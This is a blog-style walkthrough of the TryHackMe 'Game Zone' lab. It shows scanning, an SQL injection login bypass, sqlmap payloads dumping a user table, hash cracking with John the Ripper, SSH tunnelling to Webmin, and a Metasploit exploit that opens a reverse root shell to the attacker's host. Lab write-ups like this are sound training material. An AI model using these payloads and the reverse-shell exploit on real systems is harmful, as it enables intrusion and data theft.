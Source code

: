 ```yaml
---
layout: post
title: THM — Game Zone
date: 2022-09-29 01:00:00 -500
categories: [TryHackMe]
tags: [SQLi, SQLMap, JohnTheRipper]
---
```


<img src="/assets/images/GameZone/logo.png" alt="GameZone Logo" width="30%">

***
<center><strong><font color="White">This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges.</font></strong></center>

***

## <strong><font color="#34A5DA">Nmap Scan</font></strong>

```console
vladislav@Mac ~ % nmap -sV -sC 10.10.76.150 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-29 18:51 MSK
Nmap scan report for 10.10.76.150
Host is up (0.068s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61ea89f1d4a7dca550f76d89c3af0b03 (RSA)
|   256 b37d72461ed341b66a911516c94aa5fa (ECDSA)
|_  256 536709dcfffb3a3efbfecfd86d4127ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.30 seconds
```

## <strong><font color="#34A5DA">Obtain access via SQLi</font></strong>

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: ' or 1=1 -- - it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use ' or 1=1 -- - as your username and leave the password blank.

However, that doesn't work. We can try changing `--` to `#`. That works!

<img src="/assets/images/GameZone/1.png" alt="GameZone Portal" width="50%">

> When you've logged in, what page do you get redirected to? `portal.php`

***

## <strong><font color="#34A5DA">Using SQLMap</font></strong>

<img src="/assets/images/GameZone/SQLMap%20Logo.png" alt="GameZone Portal" width="25%">

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using BurpSuite:

```http
POST /portal.php HTTP/1.1
Host: 10.10.76.150
Content-Length: 12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.76.150
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.76.150/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=stf6k27hlldnk3bbi7890ohuo7
Connection: close

searchitem=a
```

Save this request into a text file (`request.txt`). We can then pass this into SQLMap to use our authenticated user session.

Then run the following:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

Parameters used:
* `-r` — uses the intercepted request we saved earlier
* `--dbms` — tells SQLMap what type of database management system it is
* `--dump` — attemps to outputs the entire database

```console
vladislav@Mac ~ % sqlmap -r request.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.9#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:28:54 /2022-09-29/

[18:28:54] [INFO] parsing HTTP request from 'request.txt'
[18:28:54] [INFO] testing connection to the target URL
[18:28:54] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:28:54] [INFO] testing if the target URL content is stable
[18:28:54] [INFO] target URL content is stable
[18:28:54] [INFO] testing if POST parameter 'searchitem' is dynamic
[18:28:54] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[18:28:54] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[18:28:55] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[18:28:55] [INFO] testing for SQL injection on POST parameter 'searchitem'
y
[18:30:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:30:27] [WARNING] reflective value(s) found and filtering out
[18:30:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:30:28] [INFO] testing 'Generic inline queries'
[18:30:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:30:33] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="is")
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:30:33] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:30:34] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[18:30:34] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[18:30:34] [INFO] testing 'MySQL inline queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[18:30:34] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[18:30:34] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:30:45] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:30:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:30:45] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:30:45] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:30:45] [INFO] target URL appears to have 3 columns in query
[18:30:46] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:30:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 89 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-6208' OR 5467=5467#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=a' AND GTID_SUBSET(CONCAT(0x71717a6a71,(SELECT (ELT(8617=8617,1))),0x71766b7071),8617)-- EjRl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=a' AND (SELECT 7610 FROM (SELECT(SLEEP(5)))yuoi)-- kJeA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=a' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6a71,0x6e59474c4a676d687048576b68674e72575948747041536e424470794d4269596f70684e53774e55,0x71766b7071)#
---
[18:32:05] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[18:32:05] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:32:05] [INFO] fetching current database
[18:32:05] [INFO] fetching tables for database: 'db'
[18:32:05] [INFO] fetching columns for table 'post' in database 'db'
[18:32:06] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[18:32:06] [INFO] table 'db.post' dumped to CSV file '/Users/vladislav/.local/share/sqlmap/output/10.10.76.150/dump/db/post.csv'
[18:32:06] [INFO] fetching columns for table 'users' in database 'db'
[18:32:06] [INFO] fetching entries for table 'users' in database 'db'
[18:32:06] [INFO] recognized possible password hashes in column 'pwd'
```

We got the dump of table `post`.

After that we get dump of table `users`:

```console
[18:34:29] [WARNING] no clear password(s) found                                
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+


```

> In the users table, what is the hashed password? `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

> What was the username associated with the hashed password? `agent47`

> What was the other table name? `post`

***

## <strong><font color="#34A5DA">Cracking a password with JohnTheRipper</font></strong>

<img src="/assets/images/GameZone/JtR.png" alt="JohnTheRipper Logo" width="20%">

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

***

First save the hash as a file (`hash`). Now let's use JohnTheRipper to crack the password hash:

(John will advise formats if we run the below command without `--format=...`)

```bash
john hash --wordlist=share/wordlists/rockyou.txt --format="Raw-SHA256"
```

Parameters:
* `hash` — contains a list of our hashes (however, in our case only 1)
* `--wordlist` — is the wordlist we're using to find the dehashed value
* `--format` — is the hashing algorithm used. In our case its hashed using SHA256.

After cracking we can see the pass:
```console
vladislav@Mac ~ % john hash --show --format="Raw-SHA256"  
?:videogamer124

1 password hash cracked, 0 left
```

> What is the de-hashed password? `videogamer124`

Now, once we have username `agent47` and password `videogamer124`, we can try to SSH into the machine.

```bash
ssh agent47@10.10.76.150
videogamer124
```

> What is the user flag? `649ac17b1480ac13ef1e4fa579dac95c`

***

## <strong><font color="#34A5DA">Exposing services with reverse SSH tunnels</font></strong>

<img src="/assets/images/GameZone/reverse_ssh.png" alt="JohnTheRipper Logo" width="70%">

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

`-L` is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to `localhost:9000` on your machine, will load imgur traffic using your other server.

`-R` is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

We will use a tool called `ss` to investigate sockets running on a host.

If we run `ss -tulpn` it will tell us what socket connections are running

```console
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q                                                                             Local Address:Port                                                                                            Peer Address:Port              
udp    UNCONN     0      0                                                                                              *:10000                                                                                                      *:*                  
udp    UNCONN     0      0                                                                                              *:68                                                                                                         *:*                  
tcp    LISTEN     0      80                                                                                     127.0.0.1:3306                                                                                                       *:*                  
tcp    LISTEN     0      128                                                                                            *:10000                                                                                                      *:*                  
tcp    LISTEN     0      128                                                                                            *:22                                                                                                         *:*                  
tcp    LISTEN     0      128                                                                                           :::80                                                                                                        :::*                  
tcp    LISTEN     0      128                                                                                           :::22                                                                                                        :::*                  
```

| Argument | Description                        |
|----------|------------------------------------|
| `-t`     | Display TCP sockets                |
| `-u`     | Display UDP sockets                |
| `-l`     | Displays only listening sockets    |
| `-p`     | Shows the process using the socket |
| `-n`     | Doesn't resolve service names      |

> How many TCP sockets are running? `5`

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```

Once complete, in your browser type `localhost:10000` and you can access the newly-exposed webserver.

<img src="/assets/images/GameZone/reverse_ssh_site.png" alt="JohnTheRipper Logo" width="100%">

> What is the name of the exposed CMS? `Webmin`

We can log into the exposed CMS with the same credentials.

> What is the CMS version? `1.580`

***

## <strong><font color="#34A5DA">Privilege Escalation with Metasploit</font></strong>

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

***

On [exploit-db.com](https://www.exploit-db.com) we can find an [exploit](https://www.exploit-db.com/exploits/21851).

Msfconsole:
xw
```console
msf6 > use exploit/unix/webapp/webmin_show_cgi_exec
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD payload/cmd/unix/reverse
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.18.7.222
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.18.7.222:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo KACyihBCsCfJt23r;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "KACyihBCsCfJt23r\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.18.7.222:4444 -> 10.10.76.150:42686) at 2022-09-29 19:31:04 +0300

whoami
root
```

Find the flag:

```bash
cd /root
cat root.txt
```

> What is the root flag? `a4b945830144bdd71908d12d902adeee`